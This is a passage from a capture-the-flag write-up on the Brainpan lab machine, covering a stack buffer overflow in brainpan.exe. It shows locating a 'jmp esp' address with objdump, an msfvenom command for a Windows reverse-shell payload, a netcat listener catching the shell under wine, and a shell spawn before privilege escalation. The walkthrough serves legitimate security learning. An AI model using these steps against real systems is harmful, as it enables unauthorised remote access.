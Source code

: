 	*I had to check 3 times for the ESP overwriting because I was doubtful that there were no bad chars in this exercise. Around ~ 5 minutes of glancing through the addresses from the start of the ESP all the way to the last 255th byte (That's why we should, under high-pressure situations, use tools like "mona").*

Now we know we can safely generate our shellcode and overwrite our stack with it. But first we need to find our `jmp esp` instruction

We can also use "mona" to find it automatically, but in this case I did it manually with objdump:

	kali@kali:~/CTF/brainpan$ objdump -d -M intel brainpan.exe | grep "jmp    esp"
	311712f3:	ff e4                	jmp    esp

Considering the "Endianness" of our remote system, we arrange our address in reverse byte-order:

`311712f3 -> f3,12,17,31 -> \xf3\x12\x17\x31` That's exactly where we are telling the instruction pointer (EIP) to go. And if we successfully overwrite the stack, then it should begin executing our shellcode.

**Generating a shellcode** for a reverse shell with **msfvenom**

	msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=LISTENING_PORT EXITFUNC=thread -b "\x00" -f c

We then get a full shellcode, with the format "\xde\xad\xbe\xef". That's our payload, which we should use to "overflow" the stack, after our **jmp esp** instruction (`\xf3\x12\x17\x31`).

The process for local and remote exploitation are the same, so I'll jump right into the remote **exploitation** phase:

Having our remote server ready running brainpan.exe, we can then send our payload (Don't forget to generate a different shellcode for local/remote exploitation), while listening with Netcat at our desired port.

	$ nc -lp 6666

After running our exploit, we "catched" a reverse shell remotely. Boom!

## Access to the machine

![wine shell](/notebooks/files/wine_shell.png)

🤨 What??

It looks strange, but remember the server is a Linux system, and the brainpan.exe is, well, a Windows executable. So we're in a shell under the "wine" framework.

**¯\\\_(ツ)_/¯**


## Privilege escalation

We spawn a shell to avoid using the "wine" shell, which we are under (Inception):

	/bin/sh -i

Some initial information gathering, rendered something interesting right away:

	whoami
	puck
